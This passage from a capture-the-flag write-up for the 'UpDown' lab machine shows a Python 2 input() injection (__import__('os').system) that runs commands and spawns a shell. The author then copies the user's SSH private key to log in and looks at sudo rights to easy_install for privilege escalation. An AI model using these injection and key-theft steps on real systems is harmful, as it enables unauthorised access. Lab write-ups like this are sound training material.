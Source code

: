 We can immediately spot this is python2, and even more importantly it's using `input()` in python2 - which can easily lead to code execution. If we run `./siteisup`, we get prompted for the URL. If we enter a simple `os.system` command, we get a response:

```bash
$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('id')
__import__('os').system('id')
uid=1002(developer) gid=33(www-data) groups=33(www-data)
Traceback (most recent call last):
  File "/home/developer/dev/siteisup_test.py", line 4, in <module>
    page = requests.get(url)
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 75, in get
    return request('get', url, params=params, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 61, in request
    return session.request(method=method, url=url, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 515, in request
    prep = self.prepare_request(req)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 453, in prepare_request
    hooks=merge_hooks(request.hooks, self.hooks),
  File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 318, in prepare
    self.prepare_url(url, params)
  File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 392, in prepare_url
    raise MissingSchema(error)
requests.exceptions.MissingSchema: Invalid URL '0': No scheme supplied. Perhaps you meant http://0?
```

Aside from the errors, we can see it works! Now we can run `__import__('os').system('bash')` and get a shell as `developer`. I'll grab the `id_rsa` in `.ssh`, call it dev.key and SSH in:

```bash
$ ssh -i dev.key developer@10.10.11.177
```

And now we have a shell as `developer` and can read `user.txt`!

## Privesc to Root

We can check our `sudo` permissions:

```
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```

We have `sudo` permissions to run `easy_install`. We can use[ GTFOBins to find an easy sudo privesc for `easy_install`](https://gtfobins.github.io/gtfobins/easy_install/):
